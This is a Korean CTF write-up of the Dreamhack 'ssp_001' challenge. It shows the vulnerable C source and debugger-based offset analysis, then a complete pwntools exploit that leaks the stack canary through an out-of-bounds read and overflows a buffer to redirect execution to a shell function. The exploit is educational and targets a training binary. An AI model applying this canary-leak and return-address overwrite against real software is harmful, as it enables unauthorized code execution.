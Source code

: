 # [Dreamhack] ssp_001 풀이

---

# C 코드

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}
void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(30);
}
void get_shell() {
    system("/bin/sh");
}
void print_box(unsigned char *box, int idx) {
    printf("Element of index %d is : %02x\n", idx, box[idx]);
}
void menu() {
    puts("[F]ill the box");
    puts("[P]rint the box");
    puts("[E]xit");
    printf("> ");
}
int main(int argc, char *argv[]) {
    unsigned char box[0x40] = {};
    char name[0x40] = {};
    char select[2] = {};
    int idx = 0, name_len = 0;
    initialize();
    while(1) {
        menu();
        read(0, select, 2);
        switch( select[0] ) {
            case 'F':
                printf("box input : ");
                read(0, box, sizeof(box));
                break;
            case 'P':
                printf("Element index : ");
                scanf("%d", &idx);
                print_box(box, idx);
                break;
            case 'E':
                printf("Name Size : ");
                scanf("%d", &name_len);
                printf("Name : ");
                read(0, name, name_len);
                return 0;
            default:
                break;
        }
    }
}
```

![카나리 보호기법이 적용되어있는 모습](/4%EC%A3%BC%EC%B0%A8/IMG/ssp0.png)

카나리 보호기법이 적용되어있는 모습

P를 입력하면 실행할수있는 print_box함수부분을 보면 outofbound 취약점을 발생시켜서 카나리값을 알 수 있을꺼같다. 그리고 E를 입력하면 read함수에서 문자열을 얼마나 입력받을지 값을 입력받고 read함수가 실행되는데 여기서 BOF를 발생시켜서 return주소를 변조시키면 문제가 해결될꺼같다.

---

# 파일 분석

우리가 디버깅을 하면서 알아내야 하는 정보를 정리해보자

- canary의 위치 구하기
- box배열에서 카나리값까지의 오프셋
- ebp에서 name배열까지의 오프셋

디버깅은 peda를 사용했습니다.

### canary값의 위치 구하기

![Untitled](/4%EC%A3%BC%EC%B0%A8/IMG/ssp1.png)

마지막에 카나리 값을 검증하는 부분이다. 카나리값은 ebp-0x8에 위치해있는것을 볼수있다.

그러면 ebp와 카나리 사이에 4바이트의 정체모를 데이터가 있다는걸 알수있다.

---

### box배열에서 카나리값까지 오프셋 구하기

![Untitled](/4%EC%A3%BC%EC%B0%A8/IMG/ssp2.png)

main함수에서 유저가 입력한 문자를 구분하는 부분이다. 순서대로 F, P, E 이다.

P를 입력하고 카나리값을 leak 해야하기 때문에 main+192부분을 보자.

![Untitled](/4%EC%A3%BC%EC%B0%A8/IMG/ssp3.png)

코드를 보다보니 box에 위치를 알아냈다. print_box함수를 실행하기전 ebp-0x88을 푸쉬해주는 걸로보아 box의 위치는 ebp-0x88인걸 알수있다.

0x88-0x8 = 0x80(10진수 : 128)

리틀엔디안방식으로 저장되어있으니까 131 → 130 → 129 → 128 이순서대로 카나리값을 구해서 합춰주면 될꺼같다.

---

### ebp ↔ name 거리구하기

![Untitled](/4%EC%A3%BC%EC%B0%A8/IMG/ssp4.png)

위 코드는 E를 입력했을때 name을 입력받는 부분이다. 보면 name배열은 0x48(10진수 : 72)만큼 떨어져 있는걸 알수있다. 

이제 모든 정보를 얻었으니 익스플로잇 코드를 짜보자.

---

# Exploit

```python
from pwn import *

p = process("./ssp_001")

#--------카나리 구하기--------
def canary_leak(a):
  p.sendline(b"P")
  p.recvuntil(b":")
  p.sendline(str(a))
  p.recvuntil(b": ")
  return p.recv()[:2]

canary = b""
for i in range(131,127,-1):
  canary += canary_leak(i)
canary = int(canary, 16)
print("canary :",hex(canary))

#--------ret주소 변조--------
get_shell = 0x080486b9
payload = b'A' * 64 #0x48에서 8만큼 빼준값
payload += p32(canary)
payload += b'B' * 4 #카나리와 ebp 사이에 있는 더미 4바이트
payload += b'C' * 4 #sfp 4바이트
payload += p32(get_shell) #ret 변조

p.sendline(b'E')
p.sendlineafter(b"Name Size : ", str(len(payload)))
p.sendlineafter(b"Name : ", payload)
p.interactive()
```

![Untitled](/4%EC%A3%BC%EC%B0%A8/IMG/ssp5.png)

쉘이 따진걸 볼수있다